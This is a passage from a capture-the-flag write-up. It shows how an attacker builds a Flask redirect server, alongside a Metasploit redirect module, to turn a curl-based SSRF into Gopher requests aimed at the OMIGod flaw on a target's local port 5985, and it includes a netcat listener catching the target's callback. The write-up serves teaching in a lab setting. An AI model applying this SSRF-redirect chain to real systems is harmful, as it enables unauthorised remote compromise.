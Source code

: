 There is a `{}` in the `<p:command>` tag which will be filled in with the `.format()` call above.

### Flask Server

#### Strategy

I’m going to create a webserver that can redirect the Jarmis request to try to exploit OMIGod. I’ve already solved the challenge of getting the request to my server (I did try to have it contact my server directly, but Flask / Python is not in the DB, and therefore it doesn’t make the 11th request).

The next challenge is getting a POST request via a SSRF. This is challenging. The User Agent above from the server was `curl`, which means it could be redirected to make Gopher requests.

I’ll need one of my redirection methods. I’ll use MSF (but `iptables` works just as well). I’ll set the MSF server to redirect to 8443:

```

msf6 auxiliary(server/jarmisRedirect) > set redirecturl https://10.10.14.6:8443
redirecturl => https://10.10.14.6:8443

```

I could actually have `redirecturl` be set the the Gopher url that I want to send, but I’d rather troubleshoot in Python, as that’s just easier for me, so I’ll have MSF (or `iptables`) redirect to Flask, and Flask redirect to localhost:5985. I’ll try to show the steps to building it, or you can grab the final version [here](/files/jarmis-flask.py).

#### Hello World

To start, I’ll create a simple Flask app that listened on 8443 with TLS and redirects to my box:

```

from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/')    
def root():    
    return redirect('http://10.10.14.6', code=301)

if __name__ == "__main__":    
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)

```

In the last line, `ssl_context` is what allows it to run with TLS. `host` is necessary else it would only listen on localhost. And I like `debug` because I can edit the code and not have to kill and restart the app.

When I send the scan from Jarmis, it works, redirected by MSF to Flask, and by Flask to `nc` listening:

```

oxdf@parrot$ nc -lnvp 80
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.11.117.
Ncat: Connection from 10.10.11.117:53838.
GET / HTTP/1.1
Host: 10.10.14.6
User-Agent: curl/7.74.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```